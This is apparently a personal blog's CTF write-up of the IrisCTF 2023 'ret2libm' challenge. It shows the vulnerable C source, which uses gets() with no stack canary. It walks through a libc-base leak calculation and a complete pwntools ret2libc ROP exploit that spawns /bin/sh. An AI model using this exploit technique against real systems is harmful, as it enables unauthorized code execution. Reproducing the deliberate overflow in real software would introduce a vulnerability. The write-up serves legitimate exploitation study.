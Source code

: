 +++ 
tags = ["ctf", "pwn"] 
categories = ["CTF Writeups", "pwn"] 
date = "2023-1-9" 
description = "A relatively easy `pwn` challenge similar to classic ret2libc" 
title = "ret2libm - IrisCTF 2023"
+++

# Overview

`ret2libm` was the 2nd most solved `pwn` challenge of [IrisCTF 2023](https://ctftime.org/event/1774), written by `sera`.

Description:
> I need to make a pwn? Let's go with that standard warmup rop thing... what was it... ret2libm?

We are provided with a zip file containing a binary, source code, `libc`, `libm`, and Makefile.

{{< code language="c" title="chal.c" id="1" expand="Show" collapse="Hide" isCollapsed="false" >}}
#include <math.h>
#include <stdio.h>

// gcc -fno-stack-protector -lm

int main(int argc, char* argv) {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    char yours[8];

    printf("Check out my pecs: %p\n", fabs);
    printf("How about yours? ");
    gets(yours);
    printf("Let's see how they stack up.");

    return 0;
}
{{< /code >}}

{{< code language="makefile" title="Makefile" id="2" expand="Show" collapse="Hide" isCollapsed="true" >}}
chal: chal.c
    gcc -fno-stack-protector chal.c -o chal -lm
{{< /code >}}

The `gets()` function is clearly a classic buffer overflow vulnerability as it reads in any amount of bytes regardless of what the buffer `yours[8]` can actually hold. Therefore we can overwrite the return pointer `rip` and control what code it executes next.

There also isn't a canary we need to bypass.

``` 
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

Using `pwngdb` we find the offset to be `16` bytes until we overwrite the return pointer.

# Exploitation

The next step is to do a classic `ret2libc`. However, there is ASLR that we need to bypass, as the `libc` library is loaded into a different address each time. The program just so happens to give us a leak from the `libm` library which *should* allow us to calculate the `libc` base address.

```c
printf("Check out my pecs: %p\n", fabs);
```

I assumed the `fabs` address would be a **constant offset** from the `libc` base address, so after finding that offset we should be able to calculate it.

{{< image src="./img/procmap.png" alt="" position="center" style="border-radius: 5px;" >}}

`libc` base shown here is `0x7f0f11c0b000`, the `fabs` leak was `0x7f0f11e2e4d0`, so calculating `fabs - libc = 0x7f0f11e2e4d0 - 0x7f0f11c0b000 = 0x2234d0` we get an offset of `0x2234d0`. So to calculate the libc base address from the fabs leak, we simply do `libc.address = fabs - 0x2234d0`

**WAIT!** - The `libm` and `libc` binary used by our linux system is probably different to the ones given! We need to patch the binary to use the provided libraries `libc-2.27.so` and `libm-2.27.so`.

`pwninit` is a popular tool for this, however, it only links the `libc` file - we need to link both `libc` and `libm`. Therefore we will use `patchelf` (which pwninit uses anyways).

Making a copy of the binary `chal_patched` and running `patchelf --add-needed libm-2.27.so chal_patched` and `patchelf --add-needed libc-2.27.so chal_patched` we have linked the binary to use those libraries instead of our system ones!If we didn't do so, our payload may work on our system, but not the remote as they are using different libraries with different addresses and sizes.

Now that we've linked the correct libraries, we need to recalculate the offset `0x7ffff7a66cf0 - 0x7ffff7644000 = 0x422cf0`.

Okay lets setup a pwntools script to automate this!

```py
from pwn import *

filepath = "./chal_patched"
elf = context.binary = ELF(filepath)
libc = ELF("libc-2.27.so")

p = process(filepath)
input() # wait for gdb debug (gdb -p <PID>)

offset = 16
libc_offset =  0x7ffff7a66cf0 - 0x7ffff7644000
p.recvuntil(b"Check out my pecs: ")
fabs_addr = int(p.recv(14), 16)
libc.address = fabs_addr - libc_offset

print(f"{hex(libc.address) = }")
```

We can reaffirm that the address is correct by using `gdb -p <PID>` to attach to the process, and check if the calculated address is correct.

{{< figure src="./img/libcbasecalc.png" alt="" position="center" style="border-radius: 8px;" caption="<i>and it indeed is...</i>" captionPosition="left" captionStyle="" >}}

Now we have the `libc` address we can do a standard `ret2libc`. I will not go in-depth on this as it's covered a lot, check out [this amazing resource](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc) if you want to fully grasp it.

Using `ROPgadget` to find gadgets in `libc` (I chose `libc` instead of the binary as we already had its base address, didn't want to do another calculation), we find the required `pop rdi; ret` gadget as per [64 bit calling conventions](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/exploiting-calling-conventions#64-bit) to pass the `/bin/sh` string into `system()`, and another `ret` gadget for stack alignment.

Now we simply return to libc!

```py
from pwn import *

filepath = "./chal_patched"
elf = context.binary = ELF(filepath)
libc = ELF("libc-2.27.so")

p = process(filepath)
input() # wait for gdb debug

offset = 16
libc_offset =  0x7ffff7a66cf0 - 0x7ffff7644000
p.recvuntil(b"Check out my pecs: ")
fabs_addr = int(p.recv(14), 16)
libc.address = fabs_addr - libc_offset

print(f"{hex(libc.address) = }")

pop_rdi = libc.address + 0x000000000002164f
ret = libc.address + 0x00000000000008aa

system = libc.sym['system']
binsh = next(libc.search(b'/bin/sh'))

payload = flat(
    b"A" * offset,
    ret, # stack alignment
    pop_rdi,
    binsh,
    system,
    0x0
)

p.sendline(payload)
p.interactive()
```

Running this we indeed get a shell!

{{< image src="./img/yayshell.png" alt="" position="center" style="border-radius: 5px;" >}}

Now all we have to do is to connect to remote and do the same ... right? Apparently not. Running the script gives us an EOF, meaning the program crashed or ended.

{{< image src="./img/verysad.png" alt="" position="center" style="border-radius: 5px;" >}}

This is the last thing we want to see - our exploit working locally, but not on remote! When this happened I first thought I didn't link the libraries correctly, but after relinking and additional testing that didn't seem to be the case. Having no other idea what it could be, I opened a ticket on the [discord server](https://discord.com/invite/TJMssbJV).

After explaining my issue, the organiser `sera` released a Dockerfile that allowed the remote enviroment to be built on your own computer! This meant we could now debug on an enviroment identical to the remote instance, and potentially find out the issue.

After doing so, my payload unfortunetly still worked without modifications, which was really weird as the enviroment was supposedly identical to the remote instance. `sera` mentioned it could be that the `libc` was in fact *not* a constant offset of `fabs` function from `libm` on the remote instance, which meant the `libc.address` would be wrong.

{{< image src="./img/whynoworklol.png" alt="" position="center" style="border-radius: 5px;" >}}

`sera` verified that the scripts work on their docker as well, so decided to award me the flag anyways regardless of it not working on remote.

{{< image src="./img/wowflag.png" alt="" position="center" style="border-radius: 5px;" >}}

First time I've just been handed the flag by organisers, even in other competitions (*cough* Pecan CTF) where challenges were literally broken and we had the solution, organisers wouldn't award points, so huge thanks to `sera` for the help and flag!

The intended solution was to use a one-gadget in the libc and a libc address already in `rax` to (i assume) calculate the offset.

# Conclusion

Overall this was a pretty fun challenge despite the hours of trying to figure out why it wouldn't work on remote, I only started learning `pwn` recently and was glad theres a CTF with `pwn` challenges I could solve.

In the end we ([PissedEmu](https://ctftime.org/team/160273)) placed `11th` on the [leaderboard](https://ctftime.org/event/1774) which I'm happy about!

Additional thanks to the organisers for hosting IrisCTF 2023, I'll be looking forward to next year's event!

Also, please DM me on Discord at `TheSavageTeddy#7458` if there are issues or things I missed in this blog post as it is my first.
